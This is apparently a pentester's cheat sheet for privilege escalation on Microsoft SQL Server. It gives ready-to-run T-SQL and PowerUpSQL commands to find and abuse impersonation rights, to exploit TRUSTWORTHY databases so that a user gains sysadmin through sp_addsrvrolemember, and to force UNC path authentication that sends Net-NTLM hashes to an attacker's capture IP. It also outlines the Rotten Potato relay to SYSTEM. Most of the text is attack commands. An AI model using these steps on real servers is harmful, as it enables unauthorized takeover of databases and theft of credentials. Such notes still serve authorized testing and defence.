 # 04. Privilege Escalation

## Find Impersonatable Accounts
```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

> https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/

```
Invoke-SQLAuditPrivImpersonateLogin -Username un -Password pw -Instance dbname -Verbose
```

## Execute As
```
EXECUTE AS LOGIN = 'dbadmin'
```

```
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

EXECUTE AS LOGIN = 'dbadmin'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()

EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```
> https://docs.microsoft.com/en-us/sql/t-sql/statements/execute-as-transact-sql

## Trustworthy Databases
- `is_trustworthy_off` by default (Only a sysadmin can change).
- When `off` impersonated users will only have database-scope permissions.
- When `on` impersonated users can perform actions with server level permissions.
- Allows writing procedures that can execute code with server level permission.

If `is_trustworthy_on` and if a `sysadmin` (not necessarily `sa`) is owner of the database, it is possible for the database owner (a user with `db_owner`) to elevate privileges to `sysadmin`.

> https://docs.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property
> http://sqlity.net/en/1653/the-trustworthy-database-property-explained-part-1/

### Discover Trustworthy Databases
```
SELECT name as database_name
, SUSER_NAME(owner_sid) AS database_owner
, is_trustworthy_on AS TRUSTWORTHY
from sys.databases
```

```
Invoke-SQLAudit -Instance instance-name -Verbose | Out-GridView
Invoke-SQLAuditPrivTrustworthy -Instance instance-name -Verbose
```

### Exploitation
Add `sysadmin` to `myuser`:

```
EXECUTE AS USER = 'dbo'
SELECT system_user
EXEC sp_addsrvrolemember 'example.com\myuser','sysadmin'
```

## Public to Service Account

### UNC Path Injection
- Capture Net-NTLM (also known as NTLMv1/v2) hashes
- Stored procedures like `xp_dirtree` and `xp_fileexist` can be used to capture Net-NTLM hashes

```
Invoke-SQLUncPathInjection -Verbose -CaptureIp 192.168.1.11
```

UNC Path Injection cheatsheet:

> https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e

## Service Account to System

### Rotten Potato
- Trick the "NT AUTHORITY\SYSTEM" account into authenticating via NTLM to a TCP endpoint attacker control.
- Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account
- Impersonate the token we have just negotiated.
- Usable only if attackers current account has the privilege to impersonate security tokens.

> https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

### Extracting service account credentials from LSA Secrets and/or memory

### Token Impersonation for the SQL Server service

### Single user mode
